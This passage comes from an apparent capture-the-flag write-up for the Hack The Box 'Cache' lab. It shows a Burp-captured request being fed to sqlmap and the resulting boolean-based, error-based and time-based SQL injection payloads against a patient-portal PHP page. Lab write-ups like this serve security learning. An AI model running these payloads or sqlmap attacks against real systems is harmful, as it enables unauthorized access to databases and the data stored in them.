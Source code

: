 We can now intercept the request using burp and use sqlmap to identify and exploit the SQLi.

![Burp intercepted](/assets/htb/Cache/sqli-burp.png)

We save the request to a file and then start a sqlmap.

```bash 
root@darkness:~# sqlmap -r sqli.req --risk 3 --level 5
[15:29:34] [INFO] URI parameter '#1*' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable

sqlmap identified the following injection point(s) with a total of 733 HTTP(s) requests:
---                                                                                                                   
Parameter: #1* (URI)                                                                                                  
    Type: boolean-based blind                    
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)                                      
    Payload: http://hms.htb:80/portal/find_appt_popup_user.php?catid=' AND 2101=(SELECT (CASE WHEN (2101=2101) THEN 21
01 ELSE (SELECT 4941 UNION SELECT 4876) END))-- VtkV                                                                  
                                                                                                                      
    Type: error-based                                                                                                 
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)                        
    Payload: http://hms.htb:80/portal/find_appt_popup_user.php?catid=' OR (SELECT 6066 FROM(SELECT COUNT(*),CONCAT(0x7
1716b6271,(SELECT (ELT(6066=6066,1))),0x717a717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- 
qoJv                                                                                                                  
                                                                                                                      
    Type: time-based blind                                 
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)                                                         
    Payload: http://hms.htb:80/portal/find_appt_popup_user.php?catid=' AND (SELECT 8716 FROM (SELECT(SLEEP(5)))hjBQ)--
 KcPR                                                      
---
```
